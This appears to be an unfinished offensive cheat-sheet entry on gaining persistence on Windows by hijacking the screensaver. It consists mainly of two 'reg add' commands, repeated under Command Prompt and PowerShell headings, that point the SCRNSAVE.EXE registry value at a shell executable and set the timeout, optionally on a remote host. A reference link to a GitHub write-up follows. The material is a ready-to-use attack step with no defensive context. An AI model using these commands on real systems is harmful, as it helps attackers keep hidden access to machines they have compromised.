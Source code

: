 # Living off the Land

TODO: Refer to the link

## 01 - Command Prompt

```
C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

## 02 - Powershell

TODO: Convert the commands to cmdlets

```
C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

---
## References

- [austin-lai: Persistence through Windows Screensaver Hijacking](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking)
